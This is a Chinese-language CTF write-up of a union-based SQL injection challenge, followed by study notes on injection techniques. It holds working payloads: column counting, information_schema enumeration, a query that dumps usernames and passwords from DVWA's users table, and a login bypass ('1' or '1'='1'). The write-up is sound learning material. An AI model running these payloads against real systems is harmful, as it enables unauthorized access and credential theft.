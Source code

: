 #成绩单

## 解题过程：

> 这一题考察的是基本的SQL注入，然而我已经忘光了，得重新学习一下。

**首先，判断检索字段数**

submit 1，2，3都有回显，url没有改变，猜测是post，要在这个输入框注入。

```
4' union select 1,2,3,4#
```

可以判断有4个检索字段。

**联合查询更多信息**

```
4' union select database(),user(),version(),@@version_compile_os#
```

![1550229129791](https://github.com/rpishgithub/CTF-WEB-CHALLENGES/raw/master/Images/1550229129791.png)

获得数据库名称skctf_flag

用户名为skctf_flag@localhost

数据库版本5.5.34

系统Linux

**查询skctf_flag库中有哪些表**

```
4' union select 1,1,1,table_name from information_schema.tables where table_schema='skctf_flag'#
```

![1550229530578](https://github.com/rpishgithub/CTF-WEB-CHALLENGES/raw/master/Images/1550229530578.png)

Okay，就一张表fl4g，那接着看看它有哪些列。

**查询表的各个column_name**

```
4' union select 1,1,1,column_name from information_schema.columns where table_schema='skctf_flag' and table_name='fl4g'#
```

![1550229572152](https://github.com/rpishgithub/CTF-WEB-CHALLENGES/raw/master/Images/1550229572152.png)

好兴奋呀，接着查询这列就能获得flag了吧。

**查询这一列的值**

```
4' union select 1,1,1,skctf_flag from skctf_flag.fl4g#
```

![1550229690260](https://github.com/rpishgithub/CTF-WEB-CHALLENGES/raw/master/Images/1550229690260.png)

YES!!获得flag



## 学习知识：

### SQL知识

**information_schema**

information_schema is the database where the information about all the other databases is kept, for example names of a database or a table, the data type of columns, access privileges, etc.



### SQLI猜解数据库

- **判断检索字段数**

```
1' order by N#
```

N从1逐个增加至报错，则可知查询了几个字段。

- **联合查询获取更多信息**

注意union select 的字段数要与之前获得的查询的字段数相同。

```
1' union select database(),user()#
```

除了database()函数获得数据库名称，user()获得用户外，还可以通过version()获得数据库版本，@@version_compile_os获取操作系统。

- **查看数据库中所有表**

```
1' union select table_name,table_schema from information_schema.tables where table_schema='dvwa'#
```

- **猜解表中有哪些列**

```
1' union select column_name,table_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
```

- **获取对应列的值**

```
1' union select user,password from dvwa.users#
```



### 验证绕过

```
1' or '1'='1
```



### 判断注入点

- 单引号判断法

```
http://www.a.com/a.php?id=1'
```

- 判断注入类型

判断我们传入的参数为数字型还是字符型，为之后构造注入语句做准备。



一般数字型注入漏洞是这样检测的。

```
http://www.a.com/a.php?id=1 and 1=1 正常
http://www.a.com/a.php?id=1 and 1=2 报错
```

为什么这样就能判断是数字型呢？因为第二条语句正常执行就说明我们查询的是数字啦，如果它是字符的话，就不能正常执行报错。因为字符的查询语句是这样的。

```
select * from table_name where id = '1=2'
```



字符型和数字型很相似，不过注意一下字符的引号就好了。

```
http://www.a.com/a.php?id=1' and '1'='1 正常
http://www.a.com/a.php?id=1' and '1'='2 报错
```



## 参考资料：

Sql 注入基础原理介绍 https://www.shiyanlou.com/courses/876/labs/3199/document

DVWA下sql注入的操作指南 https://www.freebuf.com/column/184285.html

What is the information_schema database https://www.siteground.com/kb/what_is_the_information_schema_database/